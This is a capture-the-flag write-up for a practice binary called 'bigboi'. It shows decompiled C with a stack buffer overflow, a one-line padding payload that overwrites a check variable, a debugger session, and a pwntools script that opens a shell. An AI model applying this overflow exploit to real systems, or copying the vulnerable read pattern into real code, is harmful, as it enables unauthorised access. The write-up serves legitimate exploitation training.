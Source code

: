 # bigboi

**24** bytes is being read into an **8** byte buffer, allowing a clobber of the **target** variable to pass the check and execute `/bin/bash`. 

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 buffer;
  undefined8 local_30;
  undefined4 uStack_28;
  int target;
  undefined4 local_20;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 40);
  buffer = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  target = L'\xdeadbeef';
  puts("Are you a big boiiiii??");
  read(0,&buffer,24); // VULN
  if (target == L'\xcaf3baee') {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (canary != *(long *)(in_FS_OFFSET + 40)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

**20** Bytes of padding allows us to change `0xdeadbeef` to `0xcaf3baee`. 

```bash
python3 -c 'import pwn;print(b"A"*20 + pwn.p32(0xcaf3baee))' > payload
```

Check comparison is at `main+103`.
`
```
pwndbg> disassemble main
   ...
   0x00000000004006a5 <+100>:   mov    eax,DWORD PTR [rbp-0x1c]
   0x00000000004006a8 <+103>:   cmp    eax,0xcaf3baee
   ...
   
pwndbg> b *(main+103)
Breakpoint 1 at 0x4006a8
```

Running with the payload as input clobbers the area as expected and skip the `jne`.

```
pwndbg> r < payload
...
 ► 0x4006a8 <main+103>    cmp    eax, 0xcaf3baee     0xcaf3baee - 0xcaf3baee
   0x4006ad <main+108>    jne    main+122                    <main+122>
...
```

Automate that with a Python script

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./boi", checksec=False)
p = process()

payload = b"A"*20 + p32(0xcaf3baee)

p.sendline(payload)
p.interactive()
```

To get a shell

```shell
python3 exploit.py

Are you a big boiiiii??
$ ls
boi  exploit.py  payload  README.md
```